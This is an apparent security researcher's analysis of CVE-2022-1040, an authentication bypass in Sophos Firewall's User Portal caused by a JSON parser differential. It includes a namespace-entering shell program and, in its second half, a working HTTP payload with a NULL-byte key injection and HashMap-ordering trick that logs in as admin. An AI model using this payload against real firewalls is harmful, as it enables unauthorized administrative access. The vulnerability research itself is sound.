

## Introduction
On 2022 Mar 25, Sophos published a [Security Advisory](https://www.sophos.com/en-us/security-advisories/sophos-sa-20220325-sfos-rce) regarding an authentication bypass vulnerability allowing remote code execution which was discovered in the User-Portal and Webadmin-Portal of Sophos Firewall, assigned as CVE-2022-1040.<br/>
In this article I investigated and analyzed the inner workings of the Sophos Firewall system, and how this vulnerability manages to escape all its constraints in order to achieve AuthBypass. From there RCE is a matter of post auth research & implementation and will not be covered in this article.

## Setup
Sophos provides an easy way to install its firewall through an out of the box VM, given as an OVF file accompanied with a VMDK, ready to be deployed and ran in VMWare.<br/>
I had downloaded the files for version 18.5.1, a previous and vulnerable version of the firewall, in order to be able to trigger the vulnerability.


I ran the VM in VMWare, and after boot I was prompted for a password which was admin by default.<br/>
After login I was placed in a nice little menu.


I was then able to SSH into the machine and also access its User Portal.


Which was the entry point for the vulnerability.

## Authentication Flow

The authentication process is initiated via an HTTP-Post request to `/userportal/Controller`.


The credentials are passed inside a JSON within the “json” POST request parameter, and the response is also formatted in JSON.<br/>
At first an `eventObject` is created using the given mode parameter at `CyberoamCommonServlet::_doPost`.
Using `EventBean.getEventByMode` which contains a 1232 sized HashMap that maps modes to actions, which they have termed as OPCODEs.<br/>

```java
eventObject = EventBean.getEventByMode(mode)
```

The login action corresponds to mode 451, as can be seen in the HTTP body.
Later on `UserPortalAuth::process` is called, and performs the authentication action via the call to `CSCClient::generateAndSendAjaxEvent`.

```java
CyberoamLogger.debug("UserPortalAuth", "## UserPortal request: sending Ajax");
int returnedStatus = cscClient.generateAndSendAjaxEvent(request, response, eventBean, sqlReader, true);
CyberoamLogger.debug("UserPortalAuth", "## UserPortal request: received Ajax: returnStatus = " + returnedStatus);
```

`CSCClient.generateAndSendAjaxEvent` performs the login action via [RPC](https://en.wikipedia.org/wiki/Remote_procedure_call).<br/>
Using the given information from the HTTP Request it creates a JSON object, and sends it to a remote component on the system called CSC via UDP on `127.0.0.1:299`.


Not everyday do you get to see a custom built protocol inspired by HTTP.<br/>

The data for the RPC is sent and received in `CSCClient::sendUDP`.

```java
private int sendUDP(byte[] buff, EventBean eventBean) {
	// ...

	// Sending
	clientSocket = new DatagramSocket();
	DatagramPacket datagramPacket = new DatagramPacket(buff, buff.length, InetAddress.getByName("127.0.0.1"), 299);
		clientSocket.send(datagramPacket);
	// ...

	// Receiving
	strResponse.append((new String(datagramPacket.getData())).trim());
	return this.getStatusFromResponse(strResponse.toString(), eventBean);
}
```

500 status response is returned for wrong credentials and the “Login failed” message is displayed on the web interface.<br/>

The next component to be looked at was the CSC component.
There were many CSC processes running on the machine, with one CSC listening on port 299 and the rest were it’s child processes.<br/>
The CSC listener process would receive the UDP packet, validate it and then forward it to one of it’s CSC worker processes running on the machine, via [IPC](https://en.wikipedia.org/wiki/Inter-process_communication) implemented with Unix socketpairs, to process it and execute the needed actions. The child worker, would then execute the request using an embedded perl interpreter, via a technology known as [Perlembed](https://perldoc.perl.org/perlembed) and return the response to the CSC listener using the same socketpair.

However the core logic of the action was not in any of the binaries, nor any visible perl scripts on the file system. By having a deeper look into the binary I could see that Sohpos implemented some hiding techniques.<br/>
When CSC would first load, it would [unshare](https://man7.org/linux/man-pages/man1/unshare.1.html) its namespace from the rest of the system, and then decrypt and extract an encrypted config file to a private mount, therefore hidden from the rest of the processes running on the system.


In order to overcome the private namespace, I wanted to use [nsenter](https://man7.org/linux/man-pages/man1/nsenter.1.html) in order to enter into the namespace, however the binary was not present on the machine, I wonder why ;)<br/>
So I wrote a simple C program which basically does same, given a process PID it will spawn a shell inside its namespace.
Compiled it statically and copied it into the machine.

```C
#define _GNU_SOURCE
#include <sched.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>

int main(int argc, char **argv) {
	char s[32];
	int pid;
	int fd;
	char exe[8] = "/bin/sh";
	char *exe_argv[] = { exe, NULL };
	char *exe_envp[] = { NULL };
	
	if (argc != 2) {
		printf("Usage: %s <PID>\n", argv[0]);
	return -1;
	}

	pid = strtoul(argv[1], NULL, 10);
	if (pid == 0) {
		puts("Invalid PID");
	return -1;
	}

	snprintf(s, 32, "/proc/%d/ns/mnt", pid);

	fd = open(s, 0);
	setns(fd, 0);
	close(fd);
	
	puts("Running new shell");
	execve(exe, exe_argv, exe_envp);
	
	return 0;
}
```

Afterwards, CSC would load the extracted configuration into memory and delete all config traces from disk, so they wouldn’t be found.


And in order to overcome that I just patched the binary to set the clean_up variable to 0, or in other words, to false.

The configuration files were formatted with their own special format, which was somewhat similar to an XML with the code tag containing the perl code.<br/>
And there I could find the OPCODE’s logic.

```perl
OPCODE myaccount_login {

	#-------------------------------------------Start Config
	<code>
	if(defined $request->{username} && '' ne $request->{username}){
		$username = $request->{username};
	}
	if(defined $request->{password} && '' ne $request->{password}){
		$password = $request->{password};
	$password =~ s/&gt;/>/g;
	$password =~ s/&lt;/</g;
	# ...	
}
```

## The Vulnerability
Now that I had a deeper understanding of the authentication flow, It was time to jump into the vulnerability.<br/>
The authentication bypass vulnerability utilizes a JSON parser differential between the Frontend, the User-Portal, which uses Java’s `org.json` parser and the Backend, the CSC, which uses C’s json-c parser.<br/>

These two parsers behave differently upon the following circumstances.<br/>
When parsing a key containing a UTF-8 escaped NULL byte, `org.json` will retain the key.<br/>

```java
import org.json.JSONObject;

public class Main {
		public static void main(String[] args) {
		JSONObject jsonObject = new JSONObject("{\"A\": \"First\", \"A\\u0000A\": \"Second\"}");
		System.out.print(jsonObject);
	}
}
```

Output:<br/>

```json
{"A":"First","A\u0000A":"Second"}
```

While json-c will parse the UTF-8 escaped NULL byte, and due to the keys being implemented via C-String, the key will be truncated.<br/>
The result is two duplicate keys, where the last occurrence is chosen.<br/>

```c
#include <stdio.h>
#include <json-c/json.h>

int main(int argc, char **argv)
{
	json_object *jobj = NULL;
	char json_str[] = "{\"A\": \"First\", \"A\\u0000A\": \"Second\"}";

	jobj = json_tokener_parse(json_str);
	puts(json_object_get_string(jobj));
	return 0;
}
```

Output:<br/>

```json
{ "A": "Second" }
```

The vulnerability utilizes this behavior difference to achieve authentication bypass, by replacing the executed OPCODE in the backend via a duplicated mode key.<br/>
As the Front-End’s `GenerateOpCode::generateOpCode` first takes the whole json POST parameter and turns it into a `org.json` object, and then `CSCClient::_send` inserts the mode key and sends it to the CSC.

```java
// Construct JSON object
public static JSONObject generateOpCode(EventBean eventBean, HttpServletRequest request, HttpServletResponse response, TransactionBean transactionBean) {
	JSONObject jsonObject = null;
	// ...
	jsonObject = new JSONObject(request.getParameter("json"));
	// ...
	return jsonObject;
}

// Add mode key and send to CSC
private int _send(EventBean eventBean, JSONObject reqJSONObj, HttpServletRequest req, SqlReader sqlReader) {
	// ...
	reqJSONObj.put("mode", eventBean.getMode());
	// ...
	returnValue = this.sendUDP(buff, eventBean);
}
```

One can inject a mode key with a UTF-8 escaped NULL bytes to the JSON POST parameter, therefore adding it to the constructed `org.json.JSONObject`.<br/>
This will cause the `org.json` object to retain the key, and pass it on to the CSC which will truncate it. And there you have it, a duplicated mode key in your backend JSON.<br/>
I was able to reproduce this behavior via the following POST parameters:<br/>

```http
POST /userportal/Controller HTTP/1.1
...

mode=451&json={"username"%3a"TestUser","password"%3a"TestPassword","languageid"%3a"1","browser"%3a"Chrome_107","mode\u0000"%3a1337}&__RequestType=ajax&t=1
```

However the generated `org.json.JSONObject` would have the injected mode preceding the original mode, and because json-c chooses the last occurrence this would have no affect on the Backend.


This happens because behind the scenes `org.json.JSONObject` is based on a `java.util.HashMap`.

```java
// org.json.JSONObject

public JSONObject put(String key, Object value) throws JSONException {
	if (key == null) {
		throw new NullPointerException("Null key.");
	} else {
		if (value != null) {
			testValidity(value);
			// Insert into inner HashMap
			this.map.put(key, value);
		} else {
			this.remove(key);
		}
	return this;
	}
}
```

And `java.util.HashMap` is based on a linked list of hash bin nodes for efficient access.
When a key-value pair is inserted into the HashMap, the key is hashed, and then this hash value is used to figure out which hash bin node the key-value pair will go in.
To determine which hash bin node to use given the hash, a bitwise AND is applied to the hash and the index of the last bin.

```java
// java.util.HashMap

static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}

public V put(K key, V value) {
	return putVal(hash(key), key, value, false, true);
}


final V putVal(int hash, K key, V value, boolean onlyIfAbsent, boolean evict) {
	int tableSize;
	int i;
	Node<K,V> node;

	// Fetch last index
	tableSize = table.length;

	// Choose node
	i = (tableSize - 1) & hash;
	node = table[i];

	// ...
}	
```

When `org.json.JSONObject::toString()` is called it builds a string using its inner `map.keySet().iterator();` to generate the order of the key-value pairs in the output.<br/>
And that KeySet iterator is just an iterator wrapping of the hash bin nodes linked-list.

```java
final class KeyIterator extends HashIterator
	implements Iterator<K> {
	public final K next() { return nextNode().key; }
}
```

So in order for the injected mode key to come after the original mode key, his place within the nodes linked-list must come after the original mode’s place.<br/>
The number of nodes in the HashMap’s linked list when `CSCClient::_send` calls `org.json.JSONObject::toString()` is 32.<br/>


So in order for the injected mode’s linked-list index to come after the original mode
$(31\ \&\ hash(injectedModeKey)) > (31\ \&\ hash(“mode”))$ must be satisfied.
Concatenating 4 times “A” to the injected mode key does the trick.

```java
static final int hash(Object key) {
	int h;
	return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}

public static void main(String[] args) {
	System.out.println("node index: " + (31 & hash("mode")));
	System.out.println("node index: " + (31 & hash("mode\u0000")));
	System.out.println("node index: " + (31 & hash("mode\u0000AAAA")));
}
```

Output:<br/>

```
node index: 16
node index: 14
node index: 17
```

This change also does not affect mode injection, as the concatenation comes after the NULL byte and json-c truncates the key until the NULL byte.<br/>
And indeed they are placed one after another, with the original mode preceding the injected mode, just as I anticipated.<br/>


And consequently, the changes take affect in the Backend.


To successfully perform the authentication bypass, I needed to inject a mode which corresponds with an OPCODE that returns a json response with the status code of 200 or 201. In order to fool the Frontend that the authentication has succeeded.<br/>
After having a quick look at the defined OPCODEs, OPCODE `update_order_of_rules` mapped to mode number 88, seems like just what I need.

```perl
OPCODE update_order_of_rules {
	<code>%response=("status"=>"200","statusmessage"=>"success");</code>
	REPLY %response 200
}
```

In order to login into the administration portal, I had to use the “admin” username when triggering the authentication bypass, as after a successful login com.sophos.sf.auth.UserPortalAuth will query the database for an existing user, using the given username, and due to the fact that admin is a builtin user, this will determine I pass that check.<br/>


The complete flow is illustrated in the following diagram.<br/>

